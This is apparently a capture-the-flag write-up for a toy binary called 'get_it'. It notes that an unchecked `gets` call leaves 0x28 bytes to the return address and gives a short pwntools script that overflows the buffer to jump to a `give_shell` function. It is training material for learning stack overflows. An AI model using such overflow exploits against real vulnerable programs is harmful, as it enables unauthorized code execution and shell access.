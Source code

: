 # Application

![image](https://user-images.githubusercontent.com/115867891/206291126-ec97420d-621d-4cac-85b6-32ff7d6755b8.png)

# Dissasembly

Easy. What we see is `gets` at `[rbp-20h]`. Therefore, 0x28 bytes to return address. We have `give_shell` function that ... gives a shell.

![image](https://user-images.githubusercontent.com/115867891/206291363-87050f22-c7cf-4a93-815a-65980e2c625c.png)

![image](https://user-images.githubusercontent.com/115867891/206291390-84c7a42c-c5eb-4c87-9f87-db4561e4d06d.png)

# Exploit

```
from pwn import *

elf = ELF('./get_it')

addr_shell = elf.symbols['give_shell']
print(hex(addr_shell))

proc = process('./get_it')

payload = b'A' * 0x28 + p64(addr_shell)
proc.send(payload)
proc.interactive()
```

![image](https://user-images.githubusercontent.com/115867891/206291518-d756ccbd-f5f7-4f2f-8516-473c61a07604.png)
